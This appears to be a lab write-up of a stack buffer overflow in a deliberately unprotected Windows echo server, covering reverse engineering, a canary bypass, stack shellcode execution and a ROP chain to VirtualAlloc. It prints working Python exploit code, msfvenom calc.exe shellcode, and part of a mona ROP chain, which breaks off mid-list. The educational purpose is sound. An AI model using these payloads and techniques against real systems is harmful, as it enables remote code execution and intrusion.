> **TL;DR** — We start from a Windows echo server (PE32 binary + C++ source code) and, through reverse engineering and stack analysis, we find a classic but devastating flaw: the program trusts the length the client tells it. That oversight opens the door to overwriting the stack, bypassing a *canary cookie* and, finally, running our own code. We will do it in two ways: the "easy" one (executing directly on the stack) and the "elegant" one (ROP), and we will finish with the measures that would have prevented all of this.
{: .prompt-tip }

## Introduction

Imagine a program that, before reading a message, asks you: *"how many bytes are you going to send me?"*. And you, as the client, reply with a number. The program takes your word for it and allocates... well, actually it **doesn't allocate anything new**: it reads as many bytes as you tell it to within a fixed-size space. What happens if you tell it you are going to send four billion bytes into a 512-byte slot? Exactly what you are thinking: it overflows. And where there is an overflow, there is opportunity.

In this exercise we start from an executable (PE32) and a source code (C++) that implement the functionality of an echo server using Windows sockets. The goal is to identify and exploit a *Buffer Overflow* vulnerability while documenting the process followed.

Throughout the article we will walk the full path of binary *exploiting*, from understanding what the program does to achieving arbitrary code execution with a working proof of concept.

### Goals of the post

- Analyze the behavior of a C++ executable through reverse engineering (IDA) and stack study.
- Detect and validate a *Buffer Overflow* vulnerability in message reception.
- Exploit it using two different methodologies: direct execution on the stack and *Return-Oriented Programming* (ROP).
- Bypass mitigation mechanisms such as the *canary cookie*.
- Develop a Python PoC that demonstrates the real impact of the flaw.
- Propose security measures that mitigate the vulnerability.

### Scope

The work is confined to a controlled lab environment: a custom echo server, compiled without protections, that listens locally. It is not a real product nor a production service; it is a didactic target designed to learn the techniques on safe ground.

**Recommended prior knowledge**

- Basics of C/C++ and how the call stack works (*stack frame*, return address, `eip`/`ebp`/`esp` registers).
- Fundamentals of x86 assembly and hexadecimal representation / *endianness*.
- Familiarity with analysis tools: IDA, Immunity Debugger and the **mona** plugin, as well as `msfvenom` to generate *shellcodes*.
- Basic Python programming to build the *exploit* and handle *sockets*.

Don't worry if any of these concepts sounds distant: we will explain them as they come up.

## Analysis of the echo server

Before breaking anything, we need to understand what we are dealing with. The program is an **echo server**: a service that receives a message and returns it as is, like an echo. Let's look at its main function.


_Figure 1. Main function of the echo server._

In the code the server is initialized by creating a TCP socket over IPv4 that will listen for requests from any IP address on port 16000. Then the `MSVRCT2.dll` DLL is loaded dynamically and it starts accepting requests and handling them through `handle_connection`. That function is responsible for reading the received messages and forwarding them back to the client in the following way.


_Figure 2. Connection handler of the echo server._

Here is the crux of the matter. The function expects to receive first the length of the message in bytes and then the message itself to forward it, that is, it expects to receive a message with the following structure.

| LENGTH | MESSAGE |
| --- | --- |
| 10 | Hola Mundo |

| LENGTH | MESSAGE |
| --- | --- |
| 0x00000010 | 0x486f6c61204d756e646f |

Finally, it will check that the initialized *cookie* has not changed its value to verify that there has been no *Buffer Overflow*, and it will wait for the next connection.

## Exploitation

After having understood how the source code works and having analyzed the function that handles the connection, a problem has been detected.

In the first call to `recv` that can be seen in Figure 2, the first 4 bytes of the message are stored in the `len` variable, and then reading continues with the second call to `recv`, which receives as many bytes as were stored in the `len` variable and stores them in the *buffer*. The problem is that with 4 bytes you can represent up to 4,294,967,296 values, since it is an unsigned integer. The message, therefore, could have more than four billion characters; however, the capacity of the *buffer* is only 512 bytes. This means that, if the length is less than 512 there will be no problems, but if it is greater it will be possible to overwrite other memory areas (taking the *canary cookie* into account).

Once the code has been analyzed and the vulnerability identified, to keep exploring and be able to exploit it we will follow the methodology seen during the sessions, starting from the preliminary analysis of the source code already carried out.

### Detecting the vulnerability

As mentioned, the code presents a vulnerability, since the length of the message (the bytes that the `recv` function will read) can be much larger than the size of the *buffer* reserved for the message.

To be able to start exploiting the vulnerability we will have to analyze the disassembly of the source code and identify its parts in IDA. The stack of the `handle_connection` function would look as follows.


_Figure 3. Stack of the handle_connection function in IDA._

That is, the 512 bytes of the *buffer* and the 12 bytes of the *cookie*, the length and the received bytes are stored in that order.

Also, in the last instructions you can see how it is checked that the value of the *cookie* has not been modified.


_Figure 4. Canary cookie check._

### Validation

Despite having detected the vulnerability, it is necessary to validate that it can be exploited correctly. To do so we will have to build an *exploit* in Python that connects to the echo server using *sockets* and sends a *payload* that allows overwriting the return address to drive the program's execution towards our code. Therefore, it will be necessary to calculate the number of bytes needed to overwrite that address and to control possible invalid or problematic characters, as well as the *endianness*.

Before starting to build the message that will be sent to the server, it is worth knowing whether the executable has any kind of protection at compile time that prevents us from executing code in certain parts of memory or that randomizes addresses, since they may pose a setback when developing the *exploit*.

To do this, the **mona** plugin in Immunity Debugger is used, specifically, `!mona modules`.


_Figure 5. Protections of the loaded modules of the echo server._

As can be observed in the image, both the executable itself (`echo_server.exe`) and the dynamically loaded library (`MSVRCT2.dll`) do not have any protection such as SafeSEH, ASLR or DEP, so it seems it could be exploited without major complications.

Knowing how the program works and the layout of the stack (Figure 3), if we want to overwrite the return address we will have to:

- Send more than 512 bytes to overwrite the *buffer*.
- Send the 4 bytes of the *cookie* (`0x95125613`).
- Send 8 bytes of padding, 4 for `len` and 4 for `recvBytes`.
- Send 4 bytes to overwrite the base of the stack `ebp`.
- Finally, send the 4 bytes of the return address that modifies `eip`.
- Add the total length of the message and send it to the server.

In total: `512 + 4 + 8 + 4 + 4 = 532 bytes`.

Next, the following *payload* is generated and the application is debugged in IDA to verify that the stack is overwritten as expected.

```python
payload = "A"*512 + struct.pack("<I", 0x95125613) + "AAAA" + "AAAA" + "BBBB" + "AAAA"
msg = struct.pack("<I", len(payload)) + payload
s.send(msg)
```
_Code 1. Excerpt of the initial validation payload._


_Figure 6. State of the stack after sending the payload._

> The `recvBytes` bytes have been overwritten again by `0x214` (532) since they are assigned to that variable in the code after being received.
{: .prompt-info }

If we continue execution up to the return, the following error is shown.


_Figure 7. Error when trying to jump to address 0x41414141._

The error shows us that the validation of the *cookie* was successful, since we managed to reach the function's return, and that the vulnerability can be exploited, since we managed to overwrite the return address to `0x41414141` (AAAA) and therefore it fails, because that memory region cannot be executed.

### Payload and execution of the exploit

Finally, after having identified and validated the *Buffer Overflow* vulnerability, in this section we will carry out the exploitation as such, which allows us to redirect the program's execution to a controlled area by overwriting the return address that manipulates `eip` to execute a *shellcode*.

This *exploit* can be carried out in multiple ways, since there is no protection in the binary as was seen in Figure 5. In this case two will be carried out. In the first one the code will be executed directly on the stack, while in the other one we will choose to simulate that there is an execution protection, which prevents injecting the *shellcode* directly into the stack and pointing to it directly with a stack address in the *payload*, as in the first case.

#### Execution on the stack

The exploitation of the *Buffer Overflow* following this technique is very simple, since there is no protection. To do so you simply have to replace, in the *payload* of Code 1, the 4 "AAAA" bytes corresponding to the return address with an address that points to a nearby area of the stack. Then, a «cushion» of `nop` instructions and the *shellcode* to be executed are added.

```python
shellcode = b""
shellcode += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0"
shellcode += b"\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b"
shellcode += b"\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61"
shellcode += b"\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2"
shellcode += b"\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11"
shellcode += b"\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3"
shellcode += b"\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6"
shellcode += b"\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75"
shellcode += b"\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b"
shellcode += b"\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
shellcode += b"\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24"
shellcode += b"\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a"
shellcode += b"\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00"
shellcode += b"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb"
shellcode += b"\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
shellcode += b"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47"
shellcode += b"\x13\x72\x6f\x6a\x00\x53\xff\xd5\x63\x61\x6c"
shellcode += b"\x63\x2e\x65\x78\x65\x00"
payload = "A"*512 + struct.pack("<I", 0x95125613) + "AAAA" + "AAAA" + "BBBB" + struct.pack("<I", 0x0018FF34) + "\x90"*8 + shellcode
msg = struct.pack("<I", len(payload)) + payload
s.send(msg)
```
_Code 2. Payload to execute shellcode via the stack._

The *shellcode* that will be used will be the one needed to open a calculator in Windows, since this code does not perform malicious actions and is quite visual, which helps us to check the correct execution of the *payload*. Nevertheless, the code that can be added to the *shellcode* is arbitrary; as long as a series of prerequisites are met, anything could be executed, such as, for example, a *meterpreter* session.

After running the previous *payload*, in the following images you can see how the stack has been overwritten correctly, how the `nop`s are executed and finally how the calculator appears after the *shellcode* has been executed.


_Figure 8. Stack overwritten with shellcode after exploit._


_Figure 9. Execution of nops on the stack._


_Figure 10. Execution of the calculator after the exploit._

#### ROP

To overcome the restriction of not being able to execute code directly on the stack (a memory area not intended for code execution) we will make use of **ROP** (*Return Oriented Programming*).

Return-oriented programming consists of modifying the program's execution by chaining a series of legitimate instructions that end in a return (*gadgets*), for example, those present in some library, that modify the system registers in a specific way such that it allows us to obtain code execution in areas not intended for execution.

Specifically, we want to find instructions that, when executing the `pushad` instruction (which dumps the contents of the registers onto the stack), leave the stack in the following state.


_Figure 11. Final layout of the registers after executing PUSHAD._

In the end, what is achieved is to lay out the stack in the same way as if the `VirtualAlloc` function had been called in the code (since it has the return address and the function arguments in higher memory positions). It is as if the `VirtualAlloc` function were injected into the code with specific parameters.

Finding these instructions manually is an arduous task, so the **mona** plugin in Immunity Debugger will be used to find the *gadgets*.

After running `!mona rop`, it obtains from the modules loaded by the executable a set of instructions in various languages to be able to call the `VirtualAlloc` or `VirtualProtect` functions.


_Figure 12. Python ROP_CHAIN to call VirtualAlloc._

The instructions have mainly come from `MSVRCT2.dll`, which was a dynamically loaded library that had no protection.

The `VirtualAlloc` function allows us to allocate a memory space with a series of permissions and will be used with the following parameters.


_Figure 13. Call with parameters to VirtualAlloc._

In other words, it will be told:

- The address to allocate (`lpAddress`).
- The size (`dwSize`), in this case one byte (`0x1`), since the minimum allocation size is one page (`0x1000` bytes), so by simply indicating one byte we would already have the size of a whole page.
- The reservation type (`flAllocationType`), in this case `0x1000`, which corresponds to `MEM_COMMIT`, that is, a memory reservation.
- The permissions (`flProtect`), in this case `0x40`, which corresponds to `PAGE_EXECUTE_READWRITE`, that is, read, write and execute.

After adding and executing the `rop_chain` in the place of the return address, you can verify how the stack stores all the values just as was shown in Figure 11.


_Figure 14. State of the stack after the buffer overflow with ROP._

Once the *rop chain* has been executed, all that would be left is to add a series of `NOP` instructions (`0x90`) to the *payload* and then the *shellcode* with the payload to execute. This way a new memory space would be allocated where there are execution permissions and the program flow would be redirected towards the code to be executed.

In the same way as in the previous case, the *shellcode* that will be used to validate the exploitation will be the one that executes the calculator process, for the reasons commented previously.

```python
rop_chain = create_rop_chain()
payload = "A"*512 + struct.pack("<I", 0x95125613) + "AAAA" + "AAAA" + "BBBB" + rop_chain + "\x90"*8 + shellcode
msg = struct.pack("<I", len(payload)) + payload
s.send(msg)
```
_Code 3. Excerpt of the final payload with shellcode._

Therefore, the final *payload* would look as follows.

> The `create_rop_chain()` function corresponds to the code shown in Figure 12.
{: .prompt-info }

However, when adding the previous *shellcode* the program fails. Specifically, when executing the second call to `recv` (the one responsible for reading the message itself based on the established length), it returns an error and execution ends. The returned error is `10014`, which corresponds to `WSAEFAULT`, which is a problem with the address of some pointer as explained by the Microsoft documentation.


_Figure 15. State of EAX before executing the call to recv for the second time._


_Figure 16. State of EAX after executing the call to recv for the second time._

In the previous image you can see how the call to `recv` returns an error `-1` (`0xFFFFFFFF`).


_Figure 17. Value obtained from WSAGetLastError in EAX._

The specific error value is `0x271E`, which in decimal corresponds to the value `10014`, which represents the constant shown in the following image.


_Figure 18. Error returned by recv._

This seems to be due to the length of the *shellcode*, since with reduced versions of it the data is indeed received and overwritten correctly, although the calculator is not executed, since the code is incomplete. Because the earlier data in the *payload* (`rop_chain`, *canary cookie*, *buffer* padding, …) are necessary to carry out the overflow, we will have to look for a smaller *shellcode* that fits in the memory space. This is not simple, since the *shellcode* has a very reduced length, of about 193 bytes (it cannot be reduced further), and the maximum allowed is approximately between 133 and 150 additional bytes.

Since the options in `msfvenom` for *shellcodes* smaller than that amount are few, we will simply choose to add some instructions that modify a register without actually doing anything graphical or malicious. Specifically, four `inc eax` (`0x40`) instructions will be added, to illustrate the insertion of code through ROP.

The following image shows the execution of the inserted `NOP`s and the state of `eax` before executing the `inc` instructions.


_Figure 19. State of EAX before executing INC instructions._

After executing the instructions you can verify that the `eax` register increased by 4.


_Figure 20. State of EAX after executing the INC instructions._

## Exploit.py

Next, Code 4 attaches the Python script used for the exploitation of the *Buffer Overflow* vulnerability in the echo server.

The code of the *shellcode* for the *payload* has been generated using the Metasploit tool `msfvenom`. Specifically, the following command has been executed.

```console
$ msfvenom --platform Windows -a x86 -p windows/exec CMD=calc.exe -f python --var-name shellcode
```

In this case it was not necessary to handle the *bad chars* for the *payload* to execute correctly.

```python
import socket
import struct

shellcode = b""
shellcode += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0"
shellcode += b"\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b"
shellcode += b"\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61"
shellcode += b"\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2"
shellcode += b"\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11"
shellcode += b"\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3"
shellcode += b"\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6"
shellcode += b"\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75"
shellcode += b"\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b"
shellcode += b"\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
shellcode += b"\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24"
shellcode += b"\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a"
shellcode += b"\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00"
shellcode += b"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb"
shellcode += b"\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
shellcode += b"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47"
shellcode += b"\x13\x72\x6f\x6a\x00\x53\xff\xd5\x63\x61\x6c"
shellcode += b"\x63\x2e\x65\x78\x65\x00"

def create_rop_chain():
    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      #[---INFO:gadgets_to_set_esi:---]
      0x7800ab8b,  # POP EAX # RETN [MSVRCT2.dll]
      0x7802e0b0,  # ptr to &VirtualAlloc() [IAT SVRCT2.dll]
      0x7801239a,  # MOV EAX,DWORD PTR DS:[EAX] # RETN MSVRCT2.dll]
      0x78009aab,  # PUSH EAX # ADD AL,5F # POP ESI # RETN MSVRCT2.dll]
      #[---INFO:gadgets_to_set_ebp:---]
      0x7802b04b,  # POP EBP # RETN [MSVRCT2.dll]
      0x7800f7c1,  # & push esp # ret  [MSVRCT2.dll]
      #[---INFO:gadgets_to_set_ebx:---]
      0x78010b50,  # POP EBX # RETN [MSVRCT2.dll]
      0x00000001,  # 0x00000001-> ebx
      #[---INFO:gadgets_to_set_edx:---]
      0x78028b44,  # POP EDX # RETN [MSVRCT2.dll]
      #[---INFO:gadgets_to_set_ecx:---]
      0x7800143d,  # POP ECX # RETN [MSVRCT2.dll]
      0x00000040,  # 0x00000040-> ecx
      #[---INFO:gadgets_to_set_edi:---]
      0x7800518e,  # POP EDI # RETN [MSVRCT2.dll]
      0x7800b281,  # RETN (ROP NOP) [MSVRCT2.dll]
      #[---INFO:gadgets_to_set_eax:---]
